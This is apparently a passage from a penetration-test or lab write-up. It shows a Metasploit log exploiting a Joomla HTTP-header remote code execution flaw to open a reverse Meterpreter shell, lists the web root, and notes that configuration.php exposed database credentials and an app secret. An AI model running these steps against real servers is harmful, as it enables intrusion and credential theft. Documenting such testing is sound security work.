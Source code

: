 ```text
msf6 exploit(multi/http/joomla_http_header_rce) > set RHOSTS http://34.28.96.48
RHOSTS => http://34.28.96.48
msf6 exploit(multi/http/joomla_http_header_rce) > set RHOSTS 34.28.96.48
RHOSTS => 34.28.96.48
msf6 exploit(multi/http/joomla_http_header_rce) > run

[*] Started reverse TCP handler on 34.28.96.4:4444 
[*] 34.28.96.48:80 - Sending payload ...
[*] Sending stage (39927 bytes) to 34.28.96.48
[*] Meterpreter session 1 opened (34.28.96.4:4444 -> 34.28.96.48:51512) at 2024-02-08 08:18:56 -0500
ls

meterpreter > ls
Listing: /var/www/html
======================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100644/rw-r--r--  2916   fil   2021-02-10 11:34:53 -0500  .htaccess
100644/rw-r--r--  18092  fil   2015-10-21 13:48:16 -0400  LICENSE.txt
100644/rw-r--r--  4213   fil   2015-10-21 13:48:16 -0400  README.txt
040755/rwxr-xr-x  4096   dir   2015-10-21 13:48:16 -0400  administrator
040755/rwxr-xr-x  4096   dir   2015-10-21 13:48:16 -0400  bin
040755/rwxr-xr-x  4096   dir   2015-10-21 13:48:16 -0400  cache
040755/rwxr-xr-x  4096   dir   2015-10-21 13:48:16 -0400  cli
040755/rwxr-xr-x  4096   dir   2015-10-21 13:48:16 -0400  components
100644/rw-r--r--  1840   fil   2021-02-10 11:35:59 -0500  configuration.php
100644/rw-r--r--  2915   fil   2015-10-21 13:48:16 -0400  htaccess.txt
040755/rwxr-xr-x  4096   dir   2015-10-21 13:48:16 -0400  images
040755/rwxr-xr-x  4096   dir   2015-10-21 13:48:16 -0400  includes
100644/rw-r--r--  1212   fil   2015-10-21 13:48:16 -0400  index.php
040755/rwxr-xr-x  4096   dir   2015-10-21 13:48:16 -0400  language
040755/rwxr-xr-x  4096   dir   2015-10-21 13:48:16 -0400  layouts
040755/rwxr-xr-x  4096   dir   2015-10-21 13:48:16 -0400  libraries
040755/rwxr-xr-x  4096   dir   2024-02-08 08:02:05 -0500  logs
040755/rwxr-xr-x  4096   dir   2015-10-21 13:48:16 -0400  media
040755/rwxr-xr-x  4096   dir   2015-10-21 13:48:16 -0400  modules
040755/rwxr-xr-x  4096   dir   2015-10-21 13:48:16 -0400  plugins
100644/rw-r--r--  842    fil   2015-10-21 13:48:16 -0400  robots.txt
040755/rwxr-xr-x  4096   dir   2015-10-21 13:48:16 -0400  templates
040755/rwxr-xr-x  4096   dir   2015-10-21 13:48:16 -0400  tmp
100644/rw-r--r--  1690   fil   2015-10-21 13:48:16 -0400  web.config.txt
```

in the file `configuration.php` credentials for the local database was dislosed, as well as the app secret.

Even though RCE was achieved, it did not yield any results. Searching for credentials did not prove successfull, nor did trying to connect to the MYSQL database through a shell instance launched by meterpreter.

